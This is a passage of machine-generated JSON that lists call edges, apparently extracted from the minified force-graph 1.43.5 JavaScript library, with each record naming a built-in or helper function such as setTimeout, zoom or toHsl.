{"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "event"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "invert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "clearTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "setTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "start"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "event"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "zoom"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "event"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "clearTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "setTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "invert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "hypot"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "selection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "property"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "interrupt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "event"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "start"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "zoom"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "end"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "scaleTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "transform"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "invert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "transform"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "transform"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "scale"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "translate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "invert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "invert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "invert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "datum"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "defineProperties"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "has"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "has"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "has"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "delete"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "delete"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "has"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "delete"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "has"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "valueOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "valueOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "now"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "setTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "setTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "clearTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "setTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "setTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "clearTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "freeze"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "freeze"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "freeze"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "freeze"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "freeze"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "freeze"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "freeze"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "freeze"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "freeze"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "freeze"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "freeze"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "now"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "getId"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "getId"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "getId"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "getId"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "nextId"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "_swapEndStartRepeatValues"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "_setupProperties"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "start"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "isArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "isArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "_handleRelativeValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "reverse"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "_setupProperties"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "stopChainedTweens"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "_onStopCallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "stop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "start"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "_onStartCallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "_onEveryStartCallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "trunc"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "_easingFunction"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "_onUpdateCallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "parseFloat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "_swapEndStartRepeatValues"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "_onRepeatCallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "_onCompleteCallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "start"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "isArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "isArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "_interpolationFunction"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "_updateProperties"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "parseFloat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "parseFloat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "parseFloat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "from"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "entries"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "resetProps"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "substr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "toString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "toString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "toString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "toString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "toString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "toString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "toHsl"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "toHsl"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "desaturate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "toHsl"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "toRgb"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "toHsl"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "toHsl"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "toHsl"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "toHsl"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "toHsl"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "toHsl"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "toHsv"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "getBrightness"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "isDark"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "toRgb"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "toRgb"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "hsv"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "hsva"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", 